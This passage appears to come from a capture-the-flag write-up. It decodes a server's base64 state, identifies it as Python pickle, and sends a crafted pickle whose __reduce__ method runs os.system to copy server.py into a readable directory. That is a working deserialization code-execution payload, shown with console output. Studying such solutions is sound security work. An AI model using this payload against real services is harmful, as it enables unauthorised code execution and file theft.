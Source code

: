 That's base64, we decode it:

```
>>> s.getstate().decode('base64')
'(I1\n(I4938\nI27446\nI4867\ntp1\nNt.'
```

This is a bit more mysterious, but with a sharp eye and a little patience we can guess it's Python's serialization format (pickle) as hinted in the description.

```
>>> from cPickle import *
>>> loads(s.getstate().decode('base64'))
(1, (4938, 27446, 4867), None)
```

Now that we know the format, let's try sending it garbage.

```
>>> s.setstate(dumps((1, (4938, 27446, 4867), None)).encode('base64'))
>>> s.setstate(dumps((1, (4938, 27446, 0), None)).encode('base64'))
>>> s.setstate(dumps((1, (4938, 0, 0), None)).encode('base64'))
>>> s.setstate(dumps((1, (0, 0, 0), None)).encode('base64'))
>>> s.setstate(dumps((0, (0, 0, 0), None)).encode('base64'))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/xmlrpclib.py", line 1224, in __call__
    return self.__send(self.__name, args)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1578, in __request
    verbose=self.__verbose
  File "/usr/lib/python2.7/xmlrpclib.py", line 1264, in request
    return self.single_request(host, handler, request_body, verbose)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1297, in single_request
    return self.parse_response(response)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1473, in parse_response
    return u.close()
  File "/usr/lib/python2.7/xmlrpclib.py", line 793, in close
    raise Fault(**self._stack[0])
xmlrpclib.Fault: <Fault 1: "<type 'exceptions.ValueError'>:Invalid state data">
```

But the interesting thing here is the pickle format is known to be vulnerable to remote code injection, so we can just upload whatever Python code we want to run. With this we can read the server.py file, for example by copying it to the directory we can access.

```
>>> class Exploit(object):
...   def __reduce__(self):
...     import os
...     return (os.system, ('cp ./server.py ./fileserver/server.py',))
...
>>> s.setstate(dumps(Exploit()).encode('base64'))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/xmlrpclib.py", line 1224, in __call__
    return self.__send(self.__name, args)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1578, in __request
    verbose=self.__verbose
  File "/usr/lib/python2.7/xmlrpclib.py", line 1264, in request
    return self.single_request(host, handler, request_body, verbose)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1297, in single_request
    return self.parse_response(response)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1473, in parse_response
    return u.close()
  File "/usr/lib/python2.7/xmlrpclib.py", line 793, in close
    raise Fault(**self._stack[0])
```